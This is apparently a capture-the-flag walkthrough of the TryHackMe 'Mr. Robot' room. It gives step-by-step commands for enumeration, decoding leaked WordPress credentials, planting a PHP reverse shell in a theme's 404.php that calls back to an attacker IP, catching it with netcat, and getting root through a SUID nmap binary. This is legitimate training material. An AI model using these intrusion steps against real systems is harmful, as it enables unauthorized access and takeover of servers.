



# Mr. Robot CTF Walkthrough

## Overview

This walkthrough demonstrates how the **Mr. Robot** challenge on TryHackMe was solved. The room simulates a realistic penetration testing scenario in a legal and controlled Capture The Flag (CTF) environment.

---

## Reconnaissance

The first step was to identify the open services running on the target machine.

### Nmap Scan

```bash
nmap -sV <TARGET_IP>
````

The scan revealed three open ports:

| Port | Service |
| ---- | ------- |
| 22   | SSH     |
| 80   | HTTP    |
| 443  | HTTPS   |



Since web services were available, the next step was to investigate the website.

---

## Web Enumeration

After opening the target in a browser, the homepage displayed only a video and a message inspired by the Mr. Robot series.


Although nothing immediately useful was visible, hidden files and directories often contain valuable information.

### Directory Enumeration

We used Dirb to enumerate hidden directories:

```bash
dirb http://<TARGET_IP>
```

Alternatively:

```bash
gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirb/common.txt
```


Several interesting paths were discovered:

```text
/robots.txt
/wp-login
/license
```

---

## robots.txt

Visiting the robots file revealed:

* The first flag
* A useful wordlist

```text
key-1-of-3.txt
fsocity.dic
```


The file `key-1-of-3.txt` contained the first flag.

---

## License Page Analysis

The `/license` page contained the following encoded string:

```text
ZWxsaW90OkVSMjgtMDY1Mgo=
```

The string appeared to be Base64 encoded because it ended with "=" padding characters.

### Decoding

```bash
echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d
```

Output:

```text
elliot:ER28-0652
```


The decoded value provided valid WordPress credentials.

---

## WordPress Login

Using the discovered credentials, we authenticated to the WordPress administration panel.

```text
Username: elliot
Password: ER28-0652
```



After logging in, we gained administrator access.

---

## Obtaining Remote Code Execution

As administrators, WordPress allows direct editing of theme files.

Navigate to:

```text
Appearance → Theme Editor
```

Open:

```text
404.php
```

### Why 404.php?

* Administrators can modify PHP files directly.
* PHP code executes on the server.
* Theme directories are predictable.
* The shell can be triggered by visiting a non-existent page.


---

## Reverse Shell

Kali Linux contains a PHP reverse shell:

```bash
locate php-reverse-shell.php
```

Path:

```text
/usr/share/webshells/php/php-reverse-shell.php
```

View the file:

```bash
cat /usr/share/webshells/php/php-reverse-shell.php
```

Copy the contents into `404.php`.

Modify:

```php
$ip = "<ATTACKER_IP>";
$port = <PORT>;
```

Save the file.


---

## Netcat Listener

Start a listener:

```bash
sudo nc -nlvp <PORT>
```

Trigger the reverse shell by visiting any non-existent page:

```text
http://<TARGET_IP>/randompage
```


A reverse shell connection should be received.

---

## Shell Stabilization

Upgrade the shell:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

This provides a more interactive terminal.

---

## Privilege Escalation

Check sudo permissions:

```bash
sudo -l
```

Nothing useful was found.

Next, search for SUID binaries:

```bash
find / -type f -perm -4000 2>/dev/null
```

Among the results:

```text
/usr/local/bin/nmap
```


The machine contained an old vulnerable version of Nmap.

---

## Privilege Escalation via Nmap

Launch interactive mode:

```bash
nmap --interactive
```

Inside Nmap:

```bash
!sh
```

Verify root access:

```bash
id
```

Output:

```text
uid=0(root) gid=0(root)
```


Root privileges were successfully obtained.

---

## Finding the Remaining Flags

Search for all flag files:

```bash
find / -name "key-*" 2>/dev/null
```

Read them:

```bash
cat key-1-of-3.txt
cat key-2-of-3.txt
cat key-3-of-3.txt
```



Collect all three flags to complete the room.

---

## Attack Path Summary

1. Nmap scan identified open services.
2. Directory enumeration revealed hidden files.
3. robots.txt exposed the first flag and a wordlist.
4. The license page contained Base64-encoded credentials.
5. Credentials provided WordPress administrator access.
6. Theme editing enabled remote code execution.
7. A reverse shell was obtained using Netcat.
8. SUID enumeration identified a vulnerable Nmap binary.
9. Nmap interactive mode provided root access.
10. The remaining flags were collected.

---

## Skills Practiced

* Nmap Scanning
* Directory Enumeration
* WordPress Exploitation
* Credential Discovery
* Reverse Shells
* Linux Privilege Escalation
* SUID Exploitation
* Post-Exploitation Enumeration

## Conclusion

This room demonstrates a complete penetration testing workflow, including reconnaissance, web enumeration, credential discovery, remote code execution, privilege escalation, and flag retrieval.


